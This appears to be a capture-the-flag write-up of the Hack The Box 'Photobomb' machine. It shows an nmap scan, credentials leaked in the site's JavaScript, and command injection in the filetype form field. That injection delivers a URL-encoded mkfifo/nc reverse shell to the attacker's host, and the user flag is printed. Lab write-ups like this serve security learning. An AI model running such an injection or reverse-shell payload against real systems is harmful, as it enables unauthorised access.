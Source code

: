 # NMAP

The scan shows that photobomb has 80 and 22 open 

```{sh}
$ nmap 10.129.93.24 -sC -sV -p22,80

Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-02 15:01 CET
Nmap scan report for 10.129.93.24
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.91 seconds

```

# WEB PAGE 

the webpage has the following directories

not able to read them 

/source_images
/resized_images

## default 

The webpage has the following information:
<ol>
    <li>its a printing service</li>
    <li>credentials for printing are given to users in a welcome pack </li>
    <li>technichal support team is on  4 4283 77468377</li>
</ol>

when trying to access the link in the description we get a login alert. Looking at the js code that the webpage loads we can see that the credentials are in plain text in the js code 

```{sh}
$ curl http://photobomb.htb/photobomb.js

function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

>pH0t0:b0Mb!

## /printer

in the next web page that loads, we have a form with the names: name (image to select), filetype (type of file to submit), dimensions (the dimensions of printing)

notes:
the sever blacklists (in photo) any form of / or .. 
it also blocks it in the dimensions
it does not in the filetype 
it seems to only have the jpg images and then convert them into png if asked

I am, for now, unable to find an arbitrary file read in the image selector.

playing around with it i broke it and it returned me an error web-page, with some information:

the server is running on ruby using sinatra
some images are in images are in resized_images

## foothold 

after being a long time with the application trying to see if there was anything missing i became aware of something, if i malformed the filename parameter gave me this back:

```{http}
filetype=png;

Failed to generate a copy of wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg
```

Maybie, just maybie, the machine was using an os command to transform the jpg image into a png one, after tampering with it:>

```{http}
filetype=png;+sleep+1000

504 Gateway Time-out
```

Now we only have to give it a reverse shell and i will have user access to the computer: after doing a very small script to transform a string to an url encoded string we have the following shell command:

```{sh}
$ echo ";rm pipe1; mkfifo pipe1; /bin/sh -i 2>&1 0<pipe1 | nc 10.10.14.93 2020 1>pipe1" | python3 url_encoder.py 
%3Brm%20pipe1%3B%20mkfifo%20pipe1%3B%20/bin/sh%20-i%202%3E%261%200%3Cpipe1%20%7C%20nc%2010.10.14.93%202020%201%3Epipe1
```

we just give this to filetype and we are done :)

the user flag (wizard): 906b58a59c720089356b7df85cf0866d

# Studying nginx configuration